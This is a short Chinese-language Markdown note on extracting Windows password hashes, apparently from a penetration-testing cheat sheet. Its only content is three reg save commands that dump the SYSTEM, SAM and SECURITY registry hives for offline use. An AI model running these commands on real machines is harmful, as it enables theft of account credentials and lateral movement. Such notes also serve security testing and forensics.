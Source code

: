 # Windows Hash提取

## 离线获取
```
reg save HKLM\SYSTEM sys.hiv 
reg save HKLM\SAM sam.hiv
reg save hklm\security security.hiv
```

